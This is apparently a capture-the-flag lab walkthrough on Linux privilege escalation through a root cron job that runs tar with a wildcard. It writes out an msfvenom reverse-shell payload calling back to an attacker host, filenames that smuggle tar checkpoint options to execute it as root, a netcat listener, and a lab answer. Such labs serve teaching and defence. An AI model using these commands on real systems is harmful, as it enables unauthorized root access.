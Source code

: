~~~
$ grep PATH /etc/crontab 
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
~~~

Answer: `/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`

# [Task 10] Cron Jobs - Wildcards

View the contents of the other cron job script:

```bash
cat /usr/local/bin/compress.sh
```

Note that the tar command is being run with a wildcard (`*`) in your home directory.

Take a look at the GTFOBins page for tar. Note that tar has command line options that let you run other commands as part of a checkpoint feature.

Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```

Transfer the shell.elf file to /home/user/ on the Debian VM (you can use scp or host the file on a webserver on your Kali box and use wget). Make sure the file is executable:

```bash
chmod +x /home/user/shell.elf
```

Create these two files in /home/user:

```bash
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

When the tar command in the cron job runs, the wildcard (`*`) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

```bash
nc -nvlp 4444
```

**Remember to exit out of the root shell and delete all the files you created to prevent the cron job from executing again:**

```bash
rm /home/user/shell.elf
rm /home/user/--checkpoint=1
rm /home/user/--checkpoint-action=exec=shell.elf
```
